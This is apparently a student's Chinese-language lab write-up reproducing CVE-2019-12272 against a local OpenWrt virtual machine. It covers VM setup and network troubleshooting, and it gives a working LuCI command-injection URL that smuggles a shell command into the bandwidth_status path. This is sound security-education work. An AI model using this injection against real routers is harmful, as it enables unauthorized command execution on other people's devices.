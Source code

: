 ## CVE-2019-12272漏洞复现

#### 一、手工利用复现

- 根据老师提供的含漏洞OpenWrt的[下载资源](https://c4pr1c3.github.io/cuc-mis/chap0x04/cve-2019-12272.html)下载镜像压缩包

- 解压压缩包，并将img文件转变成vdi

  ```txt
  C:\Users\Jane\Downloads\openwrt-15.05.1-x86-64-combined-ext4.img>VBoxManage convertfromraw --format VDI openwrt-15.05.1-x86-64-combined-ext4.img ext4.vdi
  Converting from raw image file="openwrt-15.05.1-x86-64-combined-ext4.img" to file="ext4.vdi"...
  Creating dynamic image with size 55050240 bytes (53MB)...
  ```

  

- 新建虚拟机，选择64位linux的虚拟机，1024MB内存，选择刚刚创建好的vdi文件。配置网卡，第一块是host-only, 第二块是NAT网络地址转换

- 启动刚刚创建好的openwrt，`vim etc/config/network`手动分配一下lan的地址为宿主机`192.168.56.xxx`的同一网段，`/etc/init.d/network restart`重启一下网络生效

  ![](img/br-lan.PNG)

- 打开浏览器输入`192.168.56.32`，默认无密码登陆root

- 观察每次登录网址的变化，发现后面会跟随一串每次都不一样会话token，例如`http://192.168.56.32/cgi-bin/luci/;stok=511cb580e774e832ba6babbf19286cc8`

- 复制粘贴`admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)`在上述网址后面，回车触发漏洞：

  ```txt
  # 触发漏洞：
  http://192.168.56.32/cgi-bin/luci/;stok=511cb580e774e832ba6babbf19286cc8/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3Ecmd.txt)
  ```

- 访问`192.168.56.32/cmd.txt`。不同命令漏洞利用的效果如下：

  ![](img/wget-apply.PNG)

  ![](img/id-apply.PNG)



![](img/ifconfig-apply.PNG)







#### 自动化利用漏洞

未完待续。。。

#### 遇到的问题

1. Luci打不开，发现host-only挂了，宿主机ping不通，检查了网络管理器里宿主机virtualbox host-only network的IPV4的地址，没有问题，在同一网段下，又检查了一遍虚拟机网络配置，选择adapter正确，就是挂，于是决定重装宿主机的adapter:

   - “win+r”输入“devmgmt.msc”

   - 卸载virtualbox host-only network

   - 选中网络适配器-操作，重新安装virtualbox host-only network

   - 重新选择虚拟机网络适配器

   - 手动配置virtualbox host-only network的IPV4地址为192.168.56.44，掩码255.255.255.0

   - 宿主机终于ping通了，luci页面终于出现了

     ![](img/adapter2.PNG)

```txt
C:\Users\Jane\Downloads\openwrt-15.05.1-x86-64-combined-ext4.img>ping 192.168.56.32

正在 Ping 192.168.56.32 具有 32 字节的数据:
来自 192.168.56.1 的回复: 无法访问目标主机。
请求超时。
请求超时。

192.168.56.32 的 Ping 统计信息:
    数据包: 已发送 = 3，已接收 = 1，丢失 = 2 (66% 丢失)，
Control-C
^C
C:\Users\Jane\Downloads\openwrt-15.05.1-x86-64-combined-ext4.img>ipconfig

Windows IP 配置


以太网适配器 以太网 7:

   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::bd91:bc7d:7af0:3eed%25
   IPv4 地址 . . . . . . . . . . . . : 192.168.56.44
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . :

以太网适配器 以太网 8:

   连接特定的 DNS 后缀 . . . . . . . :
   本地链接 IPv6 地址. . . . . . . . : fe80::f859:e5fc:5055:a203%47
   IPv4 地址 . . . . . . . . . . . . : 192.168.56.1
   子网掩码  . . . . . . . . . . . . : 255.255.255.0
   默认网关. . . . . . . . . . . . . :

无线局域网适配器 本地连接* 1:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . :

无线局域网适配器 本地连接* 2:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . :

以太网适配器 以太网 4:

   媒体状态  . . . . . . . . . . . . : 媒体已断开连接
   连接特定的 DNS 后缀 . . . . . . . :

无线局域网适配器 WLAN:

# 因为隐私保护删除此段结果
 

C:\Users\Jane\Downloads\openwrt-15.05.1-x86-64-combined-ext4.img>ping 192.168.56.32

正在 Ping 192.168.56.32 具有 32 字节的数据:
来自 192.168.56.32 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.56.32 的回复: 字节=32 时间<1ms TTL=64
来自 192.168.56.32 的回复: 字节=32 时间<1ms TTL=64

192.168.56.32 的 Ping 统计信息:
    数据包: 已发送 = 3，已接收 = 3，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms
Control-C
^C
C:\Users\Jane\Downloads\openwrt-15.05.1-x86-64-combined-ext4.img>
```

